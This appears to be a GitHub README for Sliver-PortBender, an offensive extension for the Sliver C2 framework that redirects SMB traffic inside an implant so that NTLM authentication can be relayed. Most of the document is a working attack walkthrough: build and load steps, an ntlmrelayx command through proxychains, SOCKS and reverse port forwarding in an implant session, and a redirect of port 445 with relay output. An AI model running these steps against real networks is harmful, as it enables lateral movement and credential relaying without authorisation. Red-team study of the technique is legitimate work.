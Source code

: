 # Sliver-PortBender

An **extension to Sliver C2**, written as a **learning excercise**, that allows to **manage multiple redirections of traffic, from port to port, inside the same implant**. 
It maybe useful for performing **NTLM relaying in Sliver** in a similar way to what is described here https://rastamouse.me/ntlm-relaying-via-cobalt-strike/ for Cobalt-Strike. I recommend the user to first read the article before in case doesn't have any experience with PortBender.
**The extension is a DLL wrapping the PortBender Reflective DLL** developed by praetorian-inc here: https://github.com/praetorian-inc/PortBender. Sliver-PortBender performs the same redirection task, 
performed by the original PortBender, but does everything **inside the same implant with no need to inject into other binaries**.

## How it works

The DLL manages multiple threads each one in charge of redirecting traffic from one port to another one. It keeps a map ID -> thread that allows to destroy/create/list the different
threads. For redirection task most of the code was taken from the original PortBender project and it was refactored in order to not crash the implant.
Even if the **backdoor** command appears as a possible argument, it is actually **not available**.

## How to build it

open the solution file using visual studio 2019, and build the x64 release (I didn't test the x86).

## How to load / install it

Until this is potentially included in the armory it can be built on a windows system and loaded manually in sliver.
Create a directory called sliver-extension and copy inside it SliverPortBender.dll, the binary previously compiled on windows with visual studio, and extension.json:
```
$ mkdir sliver-extension && cd sliver-extension
$ cp /path/to/extension.json .
$ cp /path/to/SliverPortBender.dll .
```

Install and load the extension in sliver-client:
```
> extension install /path/to/sliver-extension
> extension load /path/to/sliver-extension
```

## Usage

By running `portbender` you can already get a help message. Here the functionalities:

- `portbender redirect <fakeDstPort> <redirectedPort>` . Redirects the traffic from `<fakeDstPort>` to `<redirectedPort>`
- `portbender list` . List the active redirection rules created with the `redirect command`
- `portbender remove <id>` . Stop and remove a redirection rule with a given `<id>`. The `<id>` is retrieved through the `portbender list`command.

### Example

Here how to use Sliver-Portbender in sliver in order to redirect traffic from port 445 to port 8445 and then relay incoming traffic with ntlmrelayx in the internal network.
Be careful It is first necessary to upload `WinDivert64.sys` in the pivot machine to the path `C:\Windows\System32\drivers`. Later it is necessary to change directory to `C:\Windows\System32\drivers`.

Starting ntlmrelayx:
```

┌──(kali㉿kali)-[~]
└─$ proxychains4 impacket-ntlmrelayx -smb2support -t smb://WIN-ICSQJ44N1F3.contoso.local --no-http-server
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections

```

Creating socks proxy, port forwarding rule and portbender rule in session:

```

[*] Active session RIPE_COUNCILOR (2aff286b-da8d-4636-8f8e-8512f67ab64e)

sliver (RIPE_COUNCILOR) > socks5 start -P 1080

[*] Started SOCKS5 127.0.0.1 1080
⚠️  In-band SOCKS proxies can be a little unstable depending on protocol

sliver (RIPE_COUNCILOR) > cd C:\\Windows\\System32\\Drivers

[*] C:\Windows\System32\Drivers

sliver (RIPE_COUNCILOR) > ls WinDivert64.sys

C:\Windows\System32\Drivers (1 item, 37.0 KiB)
==============================================
-rw-rw-rw-  WinDivert64.sys  37.0 KiB  Sun Dec 11 21:20:20 +0100 2022


sliver (RIPE_COUNCILOR) > rportfwd add -b 0.0.0.0:8445 -r 192.168.161.50:445

[*] Reverse port forwarding 192.168.161.50:445 <- 0.0.0.0:8445

sliver (RIPE_COUNCILOR) > portbender redirect 445 8445

[*] Successfully executed portbender
[*] Got output:
Initializing manager...
Creating redirection with id 0...
Redirection created successfully


sliver (RIPE_COUNCILOR) > portbender list

[*] Successfully executed portbender
[*] Got output:
        id:     ORIGINAL_PORT -> REDIRECTED_PORT        MODE(0=redirect,1=backdoor)     PASSWORD
        0:      445 -> 8445     0


sliver (RIPE_COUNCILOR) > 
```

Generating some traffic towards port 445 on the pivot machine (ip=192.168.161.30) where the implant is running:
```
C:\Users\Administrator>dir \\192.168.161.30\c$
The user name or password is incorrect.

C:\Users\Administrator>
```

Notice ntlmrelayx captured and relayed some traffic towards another machine in the internal network:

![immagine](https://user-images.githubusercontent.com/74059030/208508027-c9e472d8-5b70-4722-a675-f07baf8cf768.png)

Removing the port redirection rule in the sliver implant:
```

sliver (RIPE_COUNCILOR) > portbender remove 0

[*] Successfully executed portbender
[*] Got output:
successfully removed redirection with Id 0


sliver (RIPE_COUNCILOR) > portbender list

[*] Successfully executed portbender
[*] Got output:
Nothing to show


sliver (RIPE_COUNCILOR) >

```

Notice now the previous command used to generate traffic executes successfully:
```
C:\Users\Administrator>dir \\192.168.161.30\c$
 Volume in drive \\192.168.161.30\c$ has no label.
 Volume Serial Number is 9E5A-B257

 Directory of \\192.168.161.30\c$

12/07/2019  10:14 AM    <DIR>          PerfLogs
12/17/2022  10:43 AM    <DIR>          Program Files
11/20/2022  12:58 PM    <DIR>          Program Files (x86)
11/05/2022  12:26 PM    <DIR>          tmp
12/18/2022  11:34 AM    <DIR>          Users
12/18/2022  12:43 AM    <DIR>          Windows
02/21/2022  07:34 PM    <DIR>          Windows10Upgrade
               0 File(s)              0 bytes
               7 Dir(s)   5,434,863,616 bytes free

C:\Users\Administrator>
```

